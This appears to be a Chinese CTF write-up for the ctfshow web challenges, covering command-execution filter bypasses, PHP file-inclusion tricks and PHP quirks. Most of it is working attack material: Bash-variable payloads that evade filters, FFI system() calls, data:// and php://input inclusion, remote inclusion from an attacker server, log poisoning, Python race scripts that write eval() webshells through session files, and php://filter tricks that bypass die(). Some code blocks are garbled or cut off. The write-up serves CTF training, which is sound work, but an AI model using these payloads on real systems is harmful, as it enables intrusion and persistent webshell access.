>    - 这行代码使用 MySQLi 扩展建立了一个与 MySQL 数据库的连接。它指定了数据库服务器的 IP 地址为`127.0.0.1`（本地主机），用户名是`root`，密码也是`root`，要连接的数据库名称是`ctftraining`。如果连接成功，`$conn`将保存这个数据库连接对象，以便后续进行数据库操作；如果连接失败，将会产生一个错误信息（不过在这段代码中没有对连接失败情况做显式处理）。
> 2. SQL 查询语句构建：
>    - `$sql = "select load_file('/flag36.txt') as a";`
>    - 这里构建了一个 SQL 查询语句。`load_file()`是 MySQL 中的一个函数，它的作用是读取指定路径的文件内容，并以字符串的形式返回。在这个查询中，它试图读取服务器上`/flag36.txt`文件的内容，并给查询结果的这一列起了一个别名`a`。
> 3. 执行查询并获取结果：
>    - `$row = mysqli_query($conn, $sql);`
>    - 这行代码使用已经建立好的数据库连接`$conn`来执行前面构建的 SQL 查询语句`$sql`。如果查询执行成功，`$row`将包含查询结果集的资源对象（可以理解为指向查询结果数据的一种引用）；如果查询失败，同样会产生一个错误信息（这里也未做显式处理）。
>    - `while($result=mysqli_fetch_array($row)){ echo $result['a']; }`
>    - 这个`while`循环用于遍历查询结果集。`mysqli_fetch_array()`函数每次从结果集中获取一行数据，并以数组的形式返回。在循环内部，它通过`$result['a']`来获取前面查询中`load_file()`函数读取到的文件内容（因为在查询中给这一列起了别名`a`），并将其输出到屏幕上。
> 4. 程序结束：
>    - `exit();`
>    - 这行代码使得脚本在完成查询结果输出后立即终止执行，不再执行后续可能存在的其他代码。

也可以

用PDO的方法来实现同样的目的

payload:

```php
c=try {$dbh = new PDO('mysql:host=localhost;dbname=ctftraining', 'root',
'root');foreach($dbh->query('select load_file("/flag36.txt")') as $row)
{echo($row[0])."|"; }$dbh = null;}catch (PDOException $e) {echo $e-
>getMessage();exit(0);}exit(0);
```


> 1. 数据库连接建立：
>    - `$dbh = new PDO('mysql:host=localhost;dbname=ctftraining', 'root', 'root');`
>    - 这行代码使用 PDO 创建了一个与 MySQL 数据库的连接对象 `$dbh`。它指定了数据库服务器的主机名为 `localhost`，要连接的数据库名称是 `ctftraining`，以及用于登录数据库的用户名 `root` 和密码 `root`。如果连接成功，后续就可以通过这个对象进行数据库相关的操作；如果连接失败，将会抛出一个 `PDOException` 异常。
> 2. 执行查询操作：
>    - `foreach($dbh->query('select load_file("/flag36.txt")') as $row)`
>    - 这里通过已建立的数据库连接对象 `$dbh` 执行了一个 SQL 查询语句 `select load_file("/flag36.txt")`。`load_file()` 是 MySQL 中的一个函数，用于读取指定路径的文件内容。这个查询语句的目的就是获取服务器上 `/flag36.txt` 文件的内容。
>    - 然后使用 `foreach` 循环来遍历查询结果集。每次循环，`$row` 将会获取到查询结果集中的一行数据，由于查询结果只有一列（即 `load_file()` 函数返回的文件内容那一列），所以可以通过 `$row[0]` 来获取这一列的值。
>
> #### 结果输出与资源释放
>
> 1. 结果输出：
>    - `echo($row[0])."|";`
>    - 在每次遍历查询结果集的循环中，这行代码将获取到的文件内容（通过 `$row[0]`）输出到屏幕上，并在后面添加一个 `|` 作为分隔符。
> 2. 数据库连接资源释放：
>    - `$dbh = null;`
>    - 当查询结果处理完毕后，这行代码将数据库连接对象 `$dbh` 设置为 `null`，这有助于释放与该连接相关的资源，确保系统资源的合理利用。
>
> #### 异常处理
>
> 1. 捕获异常：
>    - `catch (PDOException $e) {echo $e->getMessage();exit(0);}`
>    - 整个 `try` 代码块被放置在一个 `try-catch` 语句中。如果在尝试建立数据库连接或执行查询等操作过程中出现任何 `PDOException` 异常（比如数据库连接失败、查询语句语法错误等情况），异常将会被这个 `catch` 块捕获。
>    - 一旦捕获到异常，`catch` 块中的代码将会执行。这里首先通过 `$e->getMessage()` 获取到具体的异常消息，并将其输出到屏幕上，然后使用 `exit(0)` 终止脚本的执行，以防止后续可能出现的错误或未定义行为。

#### web76


这题依旧是用glob协议查目录，得到文件名为flag36d.txt

用上一题mysql的方法，成功查到flag

payload:

```
c=$conn = mysqli_connect("127.0.0.1", "root", "root", "ctftraining"); $sql = "select load_file('/flag36d.txt') as a"; $row = mysqli_query($conn, $sql); while($result=mysqli_fetch_array($row)){ echo $result['a']; } exit();
```

#### web77


用glob协议的方法查出flag文件为flag36x.php，还有一个readflag文件

接下来要看看怎么查文件


上两题用到的读flag的方法（mysql）这题用不了，需要想点其他的方法

官方的wp用 PHP 中的 FFI（Foreign Function Interface）方法来调用 C 语言的 system 函数，并执行一个 Shell 命令。

> ##### 什么是FFI?
>
> PHP FFI（Foreign Function Interface）是 PHP 7.4 及以上版本引入的一个强大功能。它允许 PHP 代码直接调用 C 语言函数，从而实现了 PHP 与 C 语言的高效交互。这为 PHP 开发者提供了一种利用 C 语言的高性能和底层操作系统功能的方式。

payload:

```
$ffi = FFI::cdef("int system(const char *command);");//创建一个system对象
$a='/readflag > 1.txt';//没有回显的
$ffi->system($a);//通过$ffi去调用system函数
```

通过执行目录中的 /readflag 程序并将其输出重定向到文件 1.txt中（因为只是执行的话没有回显）

执行一下


看到有回显应该是成功了，访问一下1.txt


由于当前用户权限不足我们是不能直接读flag36x.php文件中的内容的，只能通过readflag（脚本里面会进行提权）来读


#### web118

原文地址：https://blog.csdn.net/Myon5/article/details/140145005

输入数字和小写字母，回显 evil input


查看源码，发现这里会将提交的参数 code 传给 system 函数 


使用 burpsuite 抓包进行单个字符的模糊测试 fuzz：


发现过滤掉了数字和小写字母以及一些符号，下面框起来的部分是可用的


结合题目提示：flag 在 flag.php


那么我们就需要构造出命令去读取 flag.php

> 我们先来了解一下 Linux 的内置变量
> 在 Linux 系统中，有许多内置变量（环境变量）用于配置系统行为和存储系统信息。
>
> （1）$BASH
>
> 描述：指向当前使用的Bash解释器的路径。
> 示例：/bin/bash
> 用途：用于确定正在使用的Bash版本和路径。
>
> （2） $PATH
>
> 描述：存储一系列路径，这些路径用于查找可执行文件，当你在命令行中输入命令时，系统会在这些路径中查找对应的可执行文件。
> 示例：/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
> 用途：影响命令的查找和执行，可以添加自定义脚本或程序的路径。
>
> （3）$HOME
>
> 描述：当前用户的主目录路径。
> 示例：/home/username
> 用途：表示当前用户的主目录，通常用于存储用户配置文件和个人数据。
>
> （4）$PWD
>
> 描述：当前工作目录（Present Working Directory）。
> 示例：/home/username/projects
> 用途：表示当前的工作目录路径，常用于脚本和命令中获取或显示当前目录。
>
> （5）$USER
>
> 描述：当前登录的用户名。
> 示例：username
> 用途：表示当前用户的名称，常用于显示或检查用户信息。
>
> （6）$SHELL
>
> 描述：当前用户的默认shell。
> 示例：/bin/bash
> 用途：表示用户登录时使用的默认shell路径。
>
> （7）$UID
>
> 描述：当前用户的用户ID。
> 示例：1000（普通用户），0（root用户）
> 用途：标识当前用户的唯一ID。
>
> （8）$IFS
>
> 描述：内部字段分隔符（Internal Field Separator），用于分割输入的字段，默认为空格、制表符和换行符。
> 示例：默认值为<space><tab><newline>
> 用途：影响脚本中的字段分割，常用于处理输入和解析文本。

此外还有很多的内置变量：


接下来我们需要知道 Bash 变量的切片，与 python 的切片类似，目的还是从指定位置开始提取子字符串，用法：${VAR:offset:length}，看例子：

```
${PWD:1:2}
```

提取从第二个字符开始的两个字符，即 ro，在 Bash 中，字符串切片的索引也是从 0 开始的。


如果只填一个参数，会默认从指定的位置开始提取到字符串的末尾：

```
${PWD:3}
```


简单测一下我们就可以看出波浪号的效果：从结尾开始取


但是这里数字被过滤了，因此我们使用大写字母绕过：

可以发现任意的大小写字母与数字 0 等效


不难想到这里的 $PWD 应该是 /var/www/html（网页服务所在的常见路径）；

而 $PATH 的结尾应该也是 /bin（这个在前面我们已经测试过了）。


因此我们可以构造出 nl 命令来读取 flag.php，由于 ? 可用，因此我们可以进行通配，绕过字母的过滤，构造 payload：

```
${PATH:~Q}${PWD:~Q} ????.???
```


当然题目还给了其他 payload：

```
${PATH:${#HOME}:${#SHLVL}}${PATH:${#RANDOM}:${#SHLVL}} ?${PATH:${#RANDOM}:${#SHLVL}}??.???
```

在Bash中，${#var} 的语法用于获取变量 var 的长度（即字符数）。

这种形式可以应用于任何变量，无论是字符串变量还是环境变量。

我们知道 ${HOME} 是 /root，因此 ${#HOME} 就是 5。


以此类推，最终将这些数字应用到切片中去，绕过对数字的过滤，构造出我们想要执行的命令。


#### Web119

先用上一题的payload打了一下，显示evil input

测了一下上题用的PATH被ban了

换个方法

```
${PWD::${#SHLVL}}???${PWD::${#SHLVL}}??${HOME:${#HOSTNAME}:${#SHLVL}} ????.???
相当于/???/??t ????.???
匹配/bin/cat ????.???
```

${#SHLVL}}=1

${PWD::${#SHLVL}} = /

${#HOSTNAME}=4    //用户名的位数，这里用户名是root，故为4


另一种方法

```
${PWD::${#SHLVL}}???${PWD::${#SHLVL}}?????${#RANDOM} ????.???
相当于/???/?????4 ????.??? 或者 /???/?????5 ????.???
想要匹配/bin/base64 ????.???
```
{#RANDOM} = 4或5

由于可能是5，所以要多试几次，还要进行base64解码


#### web120

```php

<?php
error_reporting(0);
highlight_file(__FILE__);
if(isset($_POST['code'])){
    $code=$_POST['code'];
    if(!preg_match('/\x09|\x0a|[a-z]|[0-9]|PATH|BASH|HOME|\/|\(|\)|\[|\]|\\\\|\+|\-|\!|\=|\^|\*|\x26|\%|\<|\>|\'|\"|\`|\||\,/', $code)){    
        if(strlen($code)>65){
            echo '<div align="center">'.'you are so long , I dont like '.'</div>';
        }
        else{
        echo '<div align="center">'.system($code).'</div>';
        }
    }
    else{
     echo '<div align="center">evil input</div>';
    }
}

?>
```

这题把上题的HOME也ban了，但是第二种方法还能出，而且长度也符合

```
${PWD::${#SHLVL}}???${PWD::${#SHLVL}}?????${#RANDOM} ????.???
```


或

```
${PWD::${#SHLVL}}???${PWD::${#SHLVL}}?${USER:~A}? ????.???
```


#### web121

```php

<?php
error_reporting(0);
highlight_file(__FILE__);
if(isset($_POST['code'])){
    $code=$_POST['code'];
    if(!preg_match('/\x09|\x0a|[a-z]|[0-9]|FLAG|PATH|BASH|HOME|HISTIGNORE|HISTFILESIZE|HISTFILE|HISTCMD|USER|TERM|HOSTNAME|HOSTTYPE|MACHTYPE|PPID|SHLVL|FUNCNAME|\/|\(|\)|\[|\]|\\\\|\+|\-|_|~|\!|\=|\^|\*|\x26|\%|\<|\>|\'|\"|\`|\||\,/', $code)){    
        if(strlen($code)>65){
            echo '<div align="center">'.'you are so long , I dont like '.'</div>';
        }
        else{
        echo '<div align="center">'.system($code).'</div>';
        }
    }
    else{
     echo '<div align="center">evil input</div>';
    }
}

?>
```

这题SHLVL被ban了，可以用?代替

${#?}=1

payload

```
${PWD::${#?}}???${PWD::${#?}}?????${#RANDOM} ????.???
```

或

```
${PWD::${#?}}???${PWD::${#?}}${PWD::${#?}}?? ????.???
/bin/rev
```

rev是倒叙输出的


#### web122

```php

<?php
error_reporting(0);
highlight_file(__FILE__);
if(isset($_POST['code'])){
    $code=$_POST['code'];
    if(!preg_match('/\x09|\x0a|[a-z]|[0-9]|FLAG|PATH|BASH|PWD|HISTIGNORE|HISTFILESIZE|HISTFILE|HISTCMD|USER|TERM|HOSTNAME|HOSTTYPE|MACHTYPE|PPID|SHLVL|FUNCNAME|\/|\(|\)|\[|\]|\\\\|\+|\-|_|~|\!|\=|\^|\*|\x26|#|%|\>|\'|\"|\`|\||\,/', $code)){    
        if(strlen($code)>65){
            echo '<div align="center">'.'you are so long , I dont like '.'</div>';
        }
        else{
        echo '<div align="center">'.system($code).'</div>';
        }
    }
    else{
     echo '<div align="center">evil input</div>';
    }
}

?>
```

这题把PWD和#也ban掉了

可以考虑用$?来代替${#1}

$?是表示上一条命令执行结束后的传回值。通常0代表执行成功，非0代表执行有误

所以我们可以构造payload:

```
<A;${HOME::$?}???${HOME::$?}????${RANDOM::$?}? ????.??? 
```

> <A指令不知道是啥，埋个坑


#### web124

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: 收集自网络
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-06 14:04:45

*/

error_reporting(0);
//听说你很喜欢数学，不知道你是否爱它胜过爱flag
if(!isset($_GET['c'])){
    show_source(__FILE__);
}else{
    //例子 c=20-1
    $content = $_GET['c'];
    if (strlen($content) >= 80) {
        die("太长了不会算");
    }
    $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]'];
    foreach ($blacklist as $blackitem) {
        if (preg_match('/' . $blackitem . '/m', $content)) {
            die("请不要输入奇奇怪怪的字符");
        }
    }
    //常用数学函数http://www.w3school.com.cn/php/php_ref_math.asp
    $whitelist = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
    preg_match_all('/[a-zA-Z_\x7f-\xff][a-zA-Z_0-9\x7f-\xff]*/', $content, $used_funcs);  
    foreach ($used_funcs[0] as $func) {
        if (!in_array($func, $whitelist)) {
            die("请不要输入奇奇怪怪的函数");
        }
    }
    //帮你算出答案
    eval('echo '.$content.';');
}
```

这题设置了白名单和黑名单，白名单是数学函数，黑名单则是一些符号，而且有长度限制

这题的思路其实就是要考虑用数字通过数学运算函数的转换来构造出我们需要用到的字符

就比如我们可以先将需要的字符转换成16进制后再转换成10进制，再执行命令的时候通过数学函数转换回去

[CTFshow-WEB入门-命令执行web124 - Hacker&Cat - 博客园](https://www.cnblogs.com/FallenStar/articles/17064728.html)

```
目标代码：$_GET['abs']($_GET['acos'])
```

```
dechex()，10进制转16进制

base_convert(值,原进制,目标进制)，任意进制转换

hex2bin，16进制转字符串
```

解题：

base_convert(26941962055,10,34) 为 hex2bin

base_convert(26941962055,10,34)(dechex(1598506324)) 为 _GET

构造payload

```
c=$pi=base_convert(26941962055,10,34)(dechex(1598506324));$$pi{abs}($$pi{asin})&abs=system&asin=ls
```


------


### **文件包含**

> 以PHP为例,常用的文件包含函数有以下四种include(),require(),include_once(),require_once()

#### Web78

php伪协议

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 10:52:43
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-16 10:54:20
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['file'])){
    $file = $_GET['file'];
    include($file);
}else{
    highlight_file(__FILE__);
}
```

payload:

> ?file=data://text/plain,<?php system("cat flag.php")?>

查看源代码，得到flag


#### web79

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:10:14
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-16 11:12:38
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['file'])){
    $file = $_GET['file'];
    $file = str_replace("php", "???", $file);
    include($file);
}else{
    highlight_file(__FILE__);
}
```

这题相对于上一题会将file中的php替换为???

我们可以通过base64进行绕过

```
?file=data://text/plain;base64,PD9waHAgCnN5c3RlbSgidGFjIGZsYWcucGhwIikKPz4=
```

or

```
?file=data://text/plain,<?=system('tac flag*');?> 

?file=data://text/plain,<?Php echo `tac f*`;?>
```

or

远程加载

> 加载robots.txt，发现可以回显
>
> 在自己vps上创建1.txt，内容如下 `<?php system("tac flag.php");?>` 
>
> 起一个http服务，加载 `url/?file=http://x.x.x.x:7001/1.txt`

or

input协议 大小写绕过

payload: 

```
POST /?file=Php://input HTTP/1.1

<?Php system("cat flag.php");?>
```

#### web80

```php
<?php

                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                ?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: UM_distinctid=17ffcdc88eb73a-022664ffe42c5b8-13676d4a-1fa400-17ffcdc88ec82c
Connection: close
```

写入一句话木马


连webshell工具或者直接get传参

```
?file=/var/log/nginx/access.log&2=system('ls /var/www/html');phpinfo();

?file=/var/log/nginx/access.log&2=system('tac /var/www/html/fl0g.php');phpinfo();
```

Or

input协议 大小写绕过

payload: 

```
POST /?file=Php://input HTTP/1.1

<?Php system("cat flag.php");?>
```


#### web81

```php
<?php

                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       ?>');?>"
    data = {'PHP_SESSION_UPLOAD_PROGRESS': code}
    cookies = {'PHPSESSID': PHPSESSID}
    files = {'file': ('xxx.txt', BytesIO(b'x' * 10240))}
    while True:
        post(URL, data, cookies=cookies, files=files)


def read():
    params = {'file': f'/tmp/sess_{PHPSESSID}'}
    while True:
        get(URL, params)
        url = urljoin(URL, 'shell.php')
        code = get(url).status_code.real
        print(f'{url} {code}')
        if code == 200:
            exit()


if __name__ == '__main__':
    Thread(target=write, daemon=True).start()
    read()
```


poc2

```php
import requests
import io
import threading

url='http://9a77fcb3-6f3c-4bd6-a247-07bfe6766509.challenge.ctf.show:8080/'
sessionid='ctfshow'
data={
	"1":"file_put_contents('/var/www/html/jiuzhen.php','<?php eval($_POST[3]);?>');"
}
#这个是访问/tmp/sess_ctfshow时，post传递的内容，是在网站目录下写入一句话木马。这样一旦访问成功，就可以蚁剑连接了。
def write(session):#/tmp/sess_ctfshow中写入一句话木马。
	fileBytes = io.BytesIO(b'a'*1024*50)
	while True:
		response=session.post(url,
			data={
			'PHP_SESSION_UPLOAD_PROGRESS':'<?php eval($_POST[1]);?>'
			},
			cookies={
			'PHPSESSID':sessionid
			},
			files={
			'file':('ctfshow.jpg',fileBytes)
			}
			)

def read(session):#访问/tmp/sess_ctfshow，post传递信息，在网站目录下写入木马。
	while True:
		response=session.post(url+'?file=/tmp/sess_'+sessionid,data=data,
			cookies={
			'PHPSESSID':sessionid
			}
			)
		resposne2=session.get(url+'jiuzhen.php');#访问木马文件，如果访问到了就代表竞争成功
		if resposne2.status_code==200:了
			print('++++++done++++++')
		else:
			print(resposne2.status_code)

if __name__ == '__main__':

	evnet=threading.Event()
	#写入和访问分别设置5个线程。
	with requests.session() as session:
		for i in range(5):
			threading.Thread(target=write,args=(session,)).start()
		for i in range(5):
			threading.Thread(target=read,args=(session,)).start()

	evnet.set()
```


getshell



直接查flag

**利用条件**

> 1. 存在文件包含漏洞
> 2. 知道session文件存放路径，可以尝试默认路径
> 3. 具有读取和写入session文件的权限

这两个脚本理论上适用于`web82-web86`

#### web83

web83的开篇设置了session_unset();session_destroy();

> session_unset()：释放当前在内存中已经创建的所有$_SESSION变量，但不删除session文件以及不释放对应的。
> session_destroy()：删除当前用户对应的session文件以及释放sessionid，内存中的$_SESSION变量内容依然保留。

就是释放和清除了前面所有session变量和文件，但是我们的解题思路是竞争上传那一瞬间创建的session，所以不影响。

#### web84

加上了一个`system(rm -rf /tmp/*);`，但是因为本来session.upload_progress.cleanup = on，就会清空对应session文件中的内容，这里加上删除，对竞争的影响不大。（但是可能需要增加一些线程）

#### web85

添加了一个内容识别，如果有<就die，依旧可以竞争。

#### web86

dirname(__FILE__)表示当前文件的绝对路径。set_include_path函数,是用来设置include的路径的，就是include()可以不提供文件的完整路径了。
include文件时,当包含路径既不是相对路径，也不是绝对路径时(如:include(“test.php”))，会先查找include_path所设置的目录。
脚本里用的是完整路径，不影响竞争。

> web82-86：参考https://blog.csdn.net/m0_48780534/article/details/125410757

#### web87

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-16 21:57:55
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

if(isset($_GET['file'])){
    $file = $_GET['file'];
    $content = $_POST['content'];
    $file = str_replace("php", "???", $file);
    $file = str_replace("data", "???", $file);
    $file = str_replace(":", "???", $file);
    $file = str_replace(".", "???", $file);
    file_put_contents(urldecode($file), "<?php die('大佬别秀了');?>".$content);

    
}else{
    highlight_file(__FILE__);
}
```

> 使用 `file_put_contents` 函数将经过处理后的内容写入到文件中。写入的内容是先拼接了一个 `<?php die('大佬别秀了');?>` 字符串,用于在后续如果有人直接访问写入后的文件时，防止文件内容被直接执行而显示一些提示信息，然后再拼接上从 `$_POST` 中获取的 `$content` 变量的值。

这道题需要用到php://filter

##### php://filter的使用 

原文：[谈一谈php://filter的妙用 | 离别歌](https://www.leavesongs.com/PENETRATION/php-filter-magic.html)

php://filter之前最常出镜的地方是XXE。由于XXE漏洞的特殊性，我们在读取HTML、PHP等文件时可能会抛出此类错误`parser error : StartTag: invalid element name` 。其原因是，PHP是基于标签的脚本语言，`<?php ... ?>`这个语法也与XML相符合，所以在解析XML的时候会被误认为是XML，而其中内容（比如特殊字符）又有可能和标准XML冲突，所以导致了出错。

那么，为了读取包含有敏感信息的PHP等源文件，我们就要先将“可能引发冲突的PHP代码”编码一遍，这里就会用到php://filter。

php://filter是PHP语言中特有的协议流，作用是作为一个“中间流”来处理其他流。比如，我们可以用如下一行代码将POST内容转换成base64编码并输出：

```
readfile("php://filter/read=convert.base64-encode/resource=php://input");
```

如下：

[](https://www.leavesongs.com/content/uploadfile/201607/0f851469385893.png)

所以，在XXE中，我们也可以将PHP等容易引发冲突的文件流用php://filter协议流处理一遍，这样就能有效规避特殊字符造成混乱。

如下，我们使用的是`php://filter/read=convert.base64-encode/resource=./xxe.php`

[](https://www.leavesongs.com/content/uploadfile/201607/693b1469385893.png)

------


回归正题

我们审一下这道题目的代码

相比上一道题这题增加了一个post参数，且会将传入的参数进行拼接后写入文件

```php
 $content = $_POST['content'];
 file_put_contents(urldecode($file), "<?php die('大佬别秀了');?>".$content);
```

这道题在`$content`和`$file`之间拼接了一个<?php die('大佬别秀了');?>，导致即使我们成功写入一句话，也执行不了

我们如何绕过这个die呢？

其实我们可以通过php://filter流的base64-decode方法来去除这个die

因为php在解码base64编码的时候会先将不属于base64中的字符去除，再进行转换，如下

```php
<?php
$_GET['txt'] = preg_replace('|[^a-z0-9A-Z+/]|s', '', $_GET['txt']);
base64_decode($_GET['txt']);
```

所以，我们可以使用 php://filter/write=convert.base64-decode 来首先对其解码。在解码的过程中，字符<、?、;、>、、(、) 、'空格等字符不符合base64编码的字符范围将被忽略，所以最终被解码的字符仅有“phpdie”和我们传入的其他字符。

`”phpdie“`一共6个字符，由于base64算法解码时是4个byte一组，所以给他增加2个“a”一共8个字符。这样，"phpdie"被正常解码，而后面我们传入的webshell的base64内容也被正常解码。

同时由于会对传入的file进行url解码，所以需要对传入的file进行两次url编码

> warning!!!url编码需要连同英文字符一起进行转换，可以借助hackbar强制进行转换（找了很久）

poc:

```
原文：file=php://filter/write=convert.base64-decode/resource=shell.php

file=%25%37%30%25%36%38%25%37%30%25%33%61%25%32%66%25%32%66%25%36%36%25%36%39%25%36%63%25%37%34%25%36%35%25%37%32%25%32%66%25%37%37%25%37%32%25%36%39%25%37%34%25%36%35%25%33%64%25%36%33%25%36%66%25%36%65%25%37%36%25%36%35%25%37%32%25%37%34%25%32%65%25%36%32%25%36%31%25%37%33%25%36%35%25%33%36%25%33%34%25%32%64%25%36%34%25%36%35%25%36%33%25%36%66%25%36%34%25%36%35%25%32%66%25%37%32%25%36%35%25%37%33%25%36%66%25%37%35%25%37%32%25%36%33%25%36%35%25%33%64%25%37%33%25%36%38%25%36%35%25%36%63%25%36%63%25%32%65%25%37%30%25%36%38%25%37%30
```

```
原文：content=<?php system('cat fl0g.php');?>

content=aaPD9waHAgc3lzdGVtKCdjYXQgZmwwZy5waHAnKTs/Pg==
```

访问shell.php,得到flag

其实还可以通过其他编码来进行绕过如rot13

更多[file_put_content和死亡·杂糅代码之缘 - 先知社区](https://xz.aliyun.com/t/8163?time__1311=n4%2BxnD0Dc7GQ0%3DDCDgADlhjm57IKvq0Ivo%2BimK%3Dx#toc-3)

#### web88

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-17 02:27:25
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

 */
if(isset($_GET['file'])){
    $file = $_GET['file'];
    if(preg_match("/php|\~|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\-|\_|\+|\=|\./i", $file)){
        die("error");
    }
    include($file);
}else{
    highlight_file(__FILE__);
}
```

这题过滤了很多字符但是没有过滤:、/、;

poc

```
?file=data://text/plain;base64,PD89c3lzdGVtKCJ0YWMgZmwwZy5waHAiKTsgPz4
```


#### web116

拿到题目环境，发现是个视频，下载视频用binwalk扫一下


提取图片，发现是源码


直接get传参读flag

```
?file=flag.php
```


#### web117

web87的后续 死亡绕过

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: yu22x
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-01 18:16:59

*/
highlight_file(__FILE__);
error_reporting(0);
function filter($x){
    if(preg_match('/http|https|utf|zlib|data|input|rot13|base64|string|log|sess/i',$x)){
        die('too young too simple sometimes naive!');
    }
}
$file=$_GET['file'];
$contents=$_POST['contents'];
filter($file);
file_put_contents($file, "<?php die();?>".$contents);
```

这题过滤了一些php的协议和转换器

但是没过滤掉filter和convert

我们可以考虑用filter搭配convert.iconv.*过滤器来构造出payload

参考文章：[详解php://filter以及死亡绕过_filter绕过过滤-CSDN博客](https://blog.csdn.net/woshilnp/article/details/117266628)

```php
<?php
                                                         ?>');
echo $enc;
?>
```

首先我们先将一句话木马从UCS-2BE转换成UCS-2LE

```
?<hp pe@av(l_$EG[T]1;)>?
```

接着构造payload将一句话木马从UCS-2LE转换回UCS-2BE，同时破坏掉<?php die();?>

效果如下


payload:

```
file=php://filter/write=convert.iconv.UCS-2LE.UCS-2BE/resource=shell.php
contents=?<hp pe@av(l_$EG[T]1;)>?
```

成功写入一句话木马，拿到flag


### php特性

> 参考网站：
>
> [php一些特性函数（ctfshow）](https://blog.csdn.net/qq_62046696/article/details/125272550)

#### web89

```php
<?php

/*
\# -*- coding: utf-8 -*-
\# @Author: h1xa
\# @Date:  2020-09-16 11:25:09
\# @Last Modified by:  h1xa
\# @Last Modified time: 2020-09-18 15:38:51
\# @email: h1xa@ctfer.com
\# @link: https://ctfer.com

*/


include("flag.php");
highlight_file(__FILE__);

if(isset($_GET['num'])){
  $num = $_GET['num'];
  if(preg_match("/[0-9]/", $num)){
    die("no no no!");
  }
  if(intval($num)){
    echo $flag;
  }
}
```

这题要用到数组绕过的特性来绕过preg_match的匹配

##### preg_match函数：

> preg_match函数是用于完成字符串的正则匹配的函数，如果找到一个匹配的，就返回1，否则就返回0。
> preg_match只能处理字符串，如果传入的值是数组的话，就会报错，从而返回false，绕过了正则匹配。

##### intval函数:

> - 定义:intval()`函数是 PHP 中的一个内置函数。它用于获取变量的整数值。其基本语法是`intval($var, $base = 10)`。其中`$var`是要转换的变量，`$base`是可选参数，用于指定进制（当`$var`是字符串时），默认是十进制。
>
> - 特性：
>
>   1.如果变量本身是整数，`intval()`函数会返回变量本身的值。
>
>   2.当变量是字符串时，`intval()`会尝试将字符串转换为整数。它会从字符串的开头提取数字部分，直到遇到非数字字符为止。
>
>   3.如果字符串以非数字字符开头，`intval()`会返回 0。
>
>   4.当第二个参数`$base`被指定时，`intval()`可以将字符串按照指定的进制转换为十进制整数。
>
> - 注意事项
>
>   1.对于浮点数，`intval()`会直接截断小数部分，而不是进行四舍五入。
>
>   2.当处理超出整数范围的值时（在 PHP 中，根据平台和配置不同，整数范围有所不同），可能会出现意外的结果。例如，在 32 位系统上，`int`类型的最大值是`2147483647`，如果`intval()`处理的值超过这个范围，可能会导致数据丢失或者不正确的转换。

这道题直接用数组绕过

payload:

```
